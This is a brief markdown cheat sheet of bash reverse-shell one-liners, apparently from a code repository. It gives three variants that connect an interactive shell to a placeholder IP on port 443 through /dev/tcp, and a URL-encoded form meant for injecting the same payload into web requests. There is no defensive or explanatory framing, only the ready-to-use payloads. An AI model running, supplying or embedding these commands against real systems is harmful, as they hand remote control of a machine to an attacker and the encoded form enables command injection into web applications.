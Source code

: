 # bash reverse shell

## common

```bash
/bin/bash -i >& /dev/tcp/<IP>/443 0>&1
# or
bash -l > /dev/tcp/<IP>/443 0<&1 2>&1
# or
bash -c "bash -i >& /dev/tcp/<IP>/443 0>&1"
```

## url encoded

```bash
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<IP>%2F443%200%3E%261%22
```

